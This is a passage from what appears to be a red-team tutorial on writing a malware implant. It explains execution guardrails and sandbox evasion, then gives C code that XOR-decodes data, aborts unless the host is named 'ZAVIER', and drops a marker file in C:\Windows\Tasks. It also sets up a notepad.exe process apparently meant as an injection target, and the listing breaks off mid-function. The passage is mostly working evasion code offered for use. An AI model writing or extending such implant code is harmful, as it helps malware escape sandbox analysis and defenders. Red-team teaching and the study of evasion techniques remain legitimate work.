 ### Guardrails & Sandbox Evasion

Lots of malware use execution guardrails to constrain execution based on environment specific conditions, such as hostname or whether a device is domain joined.

These are often used in engagements for scoping reasons, but can also be used for sandbox evasion. There are **literally hundreds** of guardrails and sandbox detection & evasion techniques that you can employ in your implant to constrain detonation.

As an example, we'll add a guardrail based on my hostname and kill ourselves if it doesn't match. For fun, let's drop an artifact if the guardrail doesn't pass as well.

```c
void Xor( unsigned char * data, int data_len, unsigned char * key, int key_len ) {
    for ( int i = 0; i < data_len; i++ ) {
        data[i] = data[i] ^ key[i % key_len];
    }
}

int GetHostname( char * hostname ) {
    DWORD hostname_len = 32;
    BOOL  success      = GetComputerNameA( hostname, &hostname_len );
    return success;
}

void DropArtifact() {
    char * filename = "C:\\Windows\\Tasks\\hello.txt";
    char * data     = "Hmm, are a sandbox?";
    FILE * file     = fopen( filename, "w" );
    fwrite( data, 1, strlen( data ), file );
    fclose( file );

    return;
}

int main() {

    STARTUPINFO         StartupInfo        = { 0 };
    PROCESS_INFORMATION ProcessInfo        = { 0 };
    LPCSTR              lpApplicationName  = "C:\\Windows\\System32\\notepad.exe";
    LPVOID              lpAddress          = NULL;
    PDWORD              lpflOldProtect     = NULL;
    BOOL                StartupSuccess     = FALSE;
    BOOL                WriteSuccess       = FALSE;
    BOOL                ProtectSuccess     = FALSE;
    LPSTR               Hostname           = (LPSTR)malloc( 32 );
    BOOL                GetHostnameSuccess = FALSE;
    LPSTR               GuardrailHostname  = (LPSTR)malloc( 32 );

    GuardrailHostname[0] = 0x5A;
    GuardrailHostname[1] = 0x41;
    GuardrailHostname[2] = 0x56;
    GuardrailHostname[3] = 0x49;
    GuardrailHostname[4] = 0x45;
    GuardrailHostname[5] = 0x52;

    if ( ! ( GetHostnameSuccess = GetHostname( Hostname ) ) ) {
        printf( "GetComputerName failed (%d).\n", GetLastError() );
        return 1;
    }

    if ( ! ( strcmp( Hostname, GuardrailHostname ) == 0 ) ) {
        printf( "Goodbye, let's drop an artifact too! :)\n" );
        DropArtifact();
        return 1;
```